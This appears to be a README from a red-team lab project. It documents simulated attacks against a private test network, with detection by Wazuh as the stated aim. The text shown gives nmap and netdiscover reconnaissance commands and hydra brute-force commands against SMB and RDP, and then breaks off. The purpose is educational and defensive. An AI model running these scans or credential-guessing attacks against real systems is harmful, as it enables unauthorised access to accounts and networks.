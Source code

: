 #  Red Team — Enterprise Cybersecurity Lab

This section documents simulated attacks executed against an enterprise environment using Kali Linux. These scenarios reflect common tactics from adversaries, including brute-force, remote code execution, and lateral movement. The goal is to demonstrate real-world offensive techniques and validate their detection by Blue Team tools such as **Wazuh**.

---

##  Lab Environment

| Hostname      | Role              | OS             | IP Address |
|---------------|-------------------|----------------|------------|
| kali-attacker | Red Team Attacker | Kali Linux     | 10.0.0.50  |
| client-win    | Workstation       | Windows 11     | 10.0.0.101 |
| win-server    | Domain Controller | Windows Server | 10.0.0.10  |

---

##  Objectives

- Simulate real-world attack paths on Windows infrastructure.
- Test the visibility and detection capabilities of Wazuh.
- Document MITRE ATT&CK mappings for each step.
- Propose defensive strategies based on findings.

---

##  Attack Scenarios

### 1. Network Reconnaissance

**Tools**: `netdiscover`, `nmap`  
**Purpose**: Identify live hosts, open ports, and OS fingerprints.

```bash
netdiscover -r 10.0.0.0/24
nmap -sS -sV -O -T4 10.0.0.0/24

2. SMB & RDP Brute Force
Tool: Hydra
Target: client-win
Protocols: SMB & RDP
Wordlists: SecLists

bash
Copy
Edit
hydra -L users.txt -P passwords.txt smb://10.0.0.101
hydra -L users.txt -P passwords.txt rdp://10.0.0.101
